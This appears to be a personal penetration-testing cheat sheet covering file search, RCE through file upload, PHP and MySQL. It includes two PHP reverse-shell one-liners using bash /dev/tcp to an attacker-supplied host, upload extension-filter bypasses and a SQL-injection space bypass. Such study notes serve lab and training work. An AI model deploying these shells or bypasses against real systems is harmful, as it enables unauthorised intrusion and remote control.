 # Summary
* [Searching](#Searching)
* [RCE](#RCE)
* [PHP](#PHP)
* [MySQL](#MySQL)

## Searching
* Looking for a specific file
``` 
sudo find / -name "specificfile.txt"
```
* grep 
	* -r: recursive
	* -n: number
	* -i: ignore case

## RCE
Some notes about Remote Code Execution

### File Upload
Some considerations when trying to gain RCE through File Upload
1. Use the victim box to look for the file that was uploaded
```
sudo find / -name "uploadedfile.txt"
```
2. Find the web root by triggering information disclosure
3. Try to upload file to tmp directory then web root
4. Bypass file extension filter 

## PHP
* Turn on logging
```
// Uncomment the following line to /etc/php5/apache2/php.ini
$ sudo vi /etc/php5/apache2/php.ini
display_errors = On

// Restart the apache service 
$ sudo systemctl restart apache2
```

### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

### Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

### Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)

## MySQL
* Turn on logging
```
// Uncomment the following line in /etc/mysql/my.cnf
$ sudo nano /etc/mysql/my.cnf
general_log_file = /var/log/mysql/mysql.log

// Restart mysql
$ sudo systemctl restart mysql

// Review log file
$ sudo tail -f /var/log/mysql/mysql.log
```
* Logging in
```
mysql -uroot -p
```
* Alternative to space 
```
/**/
```
* Get MySQL version
```
select version();
```
* [Common Queries](https://github.com/sqlmapproject/sqlmap/blob/c9ab8ae60e06ca3cd53f1ea80f79bcb65387cef9/xml/queries.xml)
* Finding and pulling a specific value
```
mysql> show databases;
mysql> use [database_name];
mysql> show tables;
mysql> describe [table_name];
mysql> select [table_column] from [database_name].[table_name] LIMIT 0,1;
```
